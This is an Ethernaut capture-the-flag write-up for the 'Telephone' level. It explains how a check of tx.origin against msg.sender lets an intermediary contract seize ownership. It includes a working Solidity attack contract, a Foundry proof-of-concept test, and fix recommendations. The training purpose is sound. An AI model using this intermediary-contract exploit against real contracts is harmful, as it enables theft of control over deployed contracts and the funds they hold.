 # Level 4 - Telephone

## Objectives

- claim ownership of the contract

## Contract Overview

The `Telephone` contract is checking if the caller is a smart contract.

A `Telephone` contract has one function `changeOwner` that is publicly visibile and which allows any smart
contract to change the owner of the `Telephone` contract.

The contract is supposed to work as follows:

- Contract validates condition that checks if the `tx.origin` is not equal to `msg.sender`.
- If condition is true, then sets the new owner to the address passed in the function arguments.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

## Finding the weak spots

The `changeOwner` is responsible for the critical action of changing ownership.
However, it is not protected by any security checks (like `onlyOwner` modifier).
It allows anyone to change the owner of the smart contract which is probably not
intended.

The `Telephone` contract relies on the `tx.origin` which is prone to
[phishing attacks](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin).
It might also be
[removed in the future](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200),
which may result in compatibility issues.

The contract also does not emit events on
[the critical access control parameters](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control),
which makes it difficult to track the ownership changes off-chain.

In `Telephone` contract we have specific `tx.origin` that always refers to the original transaction sender.

Instead of using `tx.origin` we should always use `msg.sender`. The reason for that is `tx.origin` looks for full call chain and the owner can never be a contract while `msg.sender` looks for most recent call.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) { // <-- this line over here
      owner = _owner;
    }
  }
```

The function `changeOwner()` has public visibility which means that it can be called by anyone. It has a condition that checks if the `tx.origin` is not equal to `msg.sender`. If this is true, then sets the new owner to the address passed in the function arguments.

So to exploit this we just need to make sure that our `tx.origin` and `msg.sender` do not match when the instance receives the function call to `changeOwner()`.

To bypass this validation we can make use of a malicious intermediary contract (e.g: phishing attack) to call `changeOwner()` and pass the function checks.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Telephone_slither.png)

## Potential attack scenario (hypothesis)

Attacker can create a malicious intermediary contract that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

## Plan of the attack

1. Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract.
2. This call (`attack()` function) invokes the `changeOwner()` function with attacker's address as an argument.
3. The ownership is claimed by attacker.

## Malicious contract (TelephoneAttack.sol)

Malicious contract has an `attack()` function that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone victimContract;

    constructor(address _victimContractAddress) public {
        victimContract = Telephone(_victimContractAddress);
    }

    function attack() public {
        victimContract.changeOwner(msg.sender);
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/04-Telephone.t.sol))

```solidity
        // Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract
        TelephoneAttack telephoneAttack = new TelephoneAttack(levelAddress);

        emit log_named_address(
            "Owner of contract before attack: ",
            telephoneContract.owner()
        );

        // `attack()` function invokes the `changeOwner()` function with attacker's address as an argument
        emit log_string("Eve calls the attack function...");
        telephoneAttack.attack();

        // The ownership is claimed by attacker
        emit log_named_address(
            "Owner of contract after attack: ",
            telephoneContract.owner()
        );

        // Test assertion
        assertEq(telephoneContract.owner(), attacker);

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Telephone.png)

## Recommendations

1. The use of some form of access control is recommended. An example of that
   might be OpenZeppelin Ownable, which provides a basic access control mechanism
   or OZ AccessControl which provides role-based access control.
2. The use of `tx.origin` should be removed from the contract.
3. Emission of events should be added to the critical `changeOwner()` function.
   It will result in better communication with off-chain components and a better
   user experience overall.

## Additional information

You can also read my other solution (using Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/4.-telephone-phising-with-tx.origin-used-instead-of-msg.sender

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

